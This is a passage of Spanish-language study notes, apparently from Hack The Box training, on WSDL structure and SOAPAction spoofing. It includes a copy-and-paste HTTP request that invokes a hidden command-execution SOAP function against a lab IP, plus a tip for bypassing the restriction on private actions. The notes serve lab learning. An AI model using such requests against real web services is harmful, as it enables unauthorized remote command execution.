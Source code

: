 ##### Service

A client makes a call to the web service through the name of the service specified in the service tag. Through this element, the client identifies the location of the web service.

```xml
   <wsdl:service name="HacktheboxService">

      <wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
        <soap:address location="http://localhost:80/wsdl"/>
      </wsdl:port>

    </wsdl:service>
```

### SOAPAction spoofing

Imaginemos que hemos encontrado el archivo WSDL de una SOAP , entonces vemos que además de la funcion login hay otra funcion que ejecuta comandos:
<img width="865" height="893" alt="image" src="https://github.com/user-attachments/assets/4da2f85a-59f8-4ca3-a825-106d7f2a2d7f" />


entonces el spoofing se basará en llamar a esta otra función oculta en un principio

<img width="771" height="368" alt="image" src="https://github.com/user-attachments/assets/cd415a17-8f4c-473f-a867-140b396a02c7" />


Payload:

<img width="782" height="498" alt="image" src="https://github.com/user-attachments/assets/e5a24e18-4afa-41a5-ac48-88d50617b9bb" />


Lo que está en verde lo ponemos porque en la primera foto de todas que puse si os dais cuenta también está subrayada esa url , básicamente si queremos llamar a la función de ejecutar comandos tenemos si o si que ponerla puesto que es parte del schema, mas que nada se ve en la jerarquía , donde la url contiene a las otras funciones, todas las demás cosas no las toqueis es solo mierda del formato de este Web Service , y lo que está en azul , si veis en la segunda foto que puse antes el Web Service
nos dice que tenemos que meter en la request esa SOAPAction.

Nota: en este caso no deja en HTB usar ExecuteCommandRequest porque dice que es privada y tal asi que hacemos el mismo ataque pero esta vez cambiando `ExecuteCommandRequest` por `LoginRequest` que si deja ejecutarla publicamente asi bypasseamos la restricción

#### Copia y pega
```
POST /wsdl HTTP/1.1 
Host: 10.129.110.14:3002 
Content-Type: text/xml; charset=utf-8 
Content-Length: 466 
SOAPAction: "ExecuteCommand" 

<?xml version="1.0" encoding="utf-8"?> 
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"> <soap:Body> <ExecuteCommandRequest xmlns="http://tempuri.org/"> <cmd>whoami</cmd> </ExecuteCommandRequest> </soap:Body> </soap:Envelope>
```
